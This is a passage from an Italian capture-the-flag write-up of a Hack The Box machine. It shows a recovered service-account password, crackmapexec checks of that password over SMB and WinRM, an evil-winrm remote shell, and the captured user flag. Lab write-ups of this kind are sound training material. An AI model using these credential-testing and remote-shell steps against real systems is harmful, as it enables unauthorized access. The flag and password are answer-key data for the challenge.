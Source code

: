 Abbiamo la password -> `1edFg43012!!`

### 2.2 Check credenziali
#
Prima di accedere realmente al servizio, facciamo un check delle credenziali con `crackmapexec`

```shell
└─$ crackmapexec smb 10.10.11.108 --shares -u svc-printer -p '1edFg43012!!'
SMB         10.10.11.108    445    PRINTER          [*] Windows 10.0 Build 17763 x64 (name:PRINTER) (domain:return.local) (signing:True) (SMBv1:False)
SMB         10.10.11.108    445    PRINTER          [+] return.local\svc-printer:1edFg43012!! 
SMB         10.10.11.108    445    PRINTER          [+] Enumerated shares
SMB         10.10.11.108    445    PRINTER          Share           Permissions     Remark
SMB         10.10.11.108    445    PRINTER          -----           -----------     ------
SMB         10.10.11.108    445    PRINTER          ADMIN$          READ            Remote Admin
SMB         10.10.11.108    445    PRINTER          C$              READ,WRITE      Default share
SMB         10.10.11.108    445    PRINTER          IPC$            READ            Remote IPC
SMB         10.10.11.108    445    PRINTER          NETLOGON        READ            Logon server share 
SMB         10.10.11.108    445    PRINTER          SYSVOL          READ            Logon server share
```

È anche interessante l'output di `winrm` poichè ci dice che può funziare WinRM

```shell
└─$ crackmapexec winrm 10.10.11.108 -u svc-printer -p '1edFg43012!!'
SMB         10.10.11.108    5985   PRINTER          [*] Windows 10.0 Build 17763 (name:PRINTER) (domain:return.local)
HTTP        10.10.11.108    5985   PRINTER          [*] http://10.10.11.108:5985/wsman
WINRM       10.10.11.108    5985   PRINTER          [+] return.local\svc-printer:1edFg43012!! (Pwn3d!)
```

### 2.3 Evil-WinRM
#
```shell
└─$ evil-winrm -i 10.10.11.108 -u svc-printer -p '1edFg43012!!'

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc-printer\Documents>
```

In *C:\Users\svc-printer\Desktop* abbiamo la user flag: `eecac6cba881cdb306e11d1b3c6c6524`
